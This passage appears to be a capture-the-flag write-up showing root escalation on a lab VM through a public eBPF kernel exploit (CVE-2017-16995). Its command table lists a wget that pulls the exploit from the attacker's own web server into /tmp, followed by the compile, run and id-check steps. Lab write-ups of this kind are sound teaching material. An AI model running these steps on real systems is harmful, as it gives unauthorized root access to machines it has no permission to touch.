 In reviewing the 45010.c code we see that it has been successful with Ubuntu 16.04 and a 4.10.0.42-generic kernel, so it looks like we will have a good chance of success with this exploit.  The exploit is based on a BPF vulnerability (CVE-2017-16995) which could allow an unprivileged user to escalate their privileges on a system.

Additional information on the vulnerability and exploit can be found here:  
https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html

The exploit code is well documented and appears clean, not containing code other than what it is intended to do.  The code does not appear to need any additional modification or require anything special for compiling.

So, let’s stage this and give it a whirl.  To get this onto the Challenge VM, we’ll copy the exploit code to our Kali web server then use wget to retrieve the exploit into the /tmp directory as it is writeable for the www-data user.  
![Successful Privilege Escalation](/img/BP1CTF/BP1CTF_WPPrivEsc_1.png)  
The exploit compiled without issues and we’ve got root!  

 | Commands                             | Description                                |
 | :---                                 | :---                                       |
 | wget http://10.254.10.44/ctf/45010.c | Transfer the exploit to target             |
 | gcc 45010.c -o 45010                 | Compile the exploit code                   |
 | chmod +x 45010                       | Make the compiled exploit executable       |
 | ./45010                              | Run the compiled exploit                   |
 | id                                   | Verify the UID & GID are zero              |

We now have permissions to the root directory and have achieved a root-level shell.  
![Privilege Escalation Verification](/img/BP1CTF/BP1CTF_WPPrivEsc_2.png)  